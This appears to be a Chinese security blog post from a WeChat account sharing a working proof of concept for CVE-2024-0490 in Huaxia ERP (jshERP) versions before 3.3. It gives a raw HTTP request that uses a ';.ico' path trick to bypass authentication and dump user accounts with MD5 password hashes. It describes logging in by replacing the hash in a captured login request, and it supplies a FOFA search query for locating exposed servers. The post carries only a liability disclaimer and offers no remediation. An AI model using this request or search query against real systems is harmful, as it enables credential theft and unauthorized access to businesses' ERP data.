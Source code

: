 #  华夏ERP getAllList账号密码泄露-CVE-2024-0490   
小白菜安全  小白菜安全   2024-01-21 18:25  
  
**免责声明**  
  
该公众号主要是分享互联网上公开的一些漏洞poc和工具，  
利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1Au88bO1jFd8V3AmqMvsqEZUFalBicQwJaic1tesic3duRuGPPQ3E1vczEJ67UzoMicSWMZpKwRElxtA/640?wx_fmt=png "")  
  
**漏洞影响范围**  
  
华夏erp<3.3  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia0PNvcB3xu1XD4zqX8J39icibr8B5qZy8oROeVcOyrQPaRVRTA0icmpFW7DE5caFn2oOewS8MJUOycow/640?wx_fmt=png&from=appmsg "")  
#  漏洞复现  
  
**poc**  
```
GET /jshERP-boot/user/getAllList;.ico HTTP/1.1
Host: 127.0.0.1
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
漏洞复现  
1. 出现以下信息代表漏洞存在  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia0PNvcB3xu1XD4zqX8J39icib0BLcKLnDCFzStDNN0ibdlFx41y2jvic6egOhQ4ZFGBiaT82TDL1TYNiasw/640?wx_fmt=png&from=appmsg "")  
  
2.获取密码为md5值，也可抓取登录数据包替换md5值登录系统  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia0PNvcB3xu1XD4zqX8J39icib7AKSo52DMbia5icFXKkReDLPFtLJAQjYUiaz8efUD3oVGKglDzxlFGacg/640?wx_fmt=png&from=appmsg "")  
# 搜索语法  
  
**fofa：icon_hash="-1298131932"**  
  
  
  
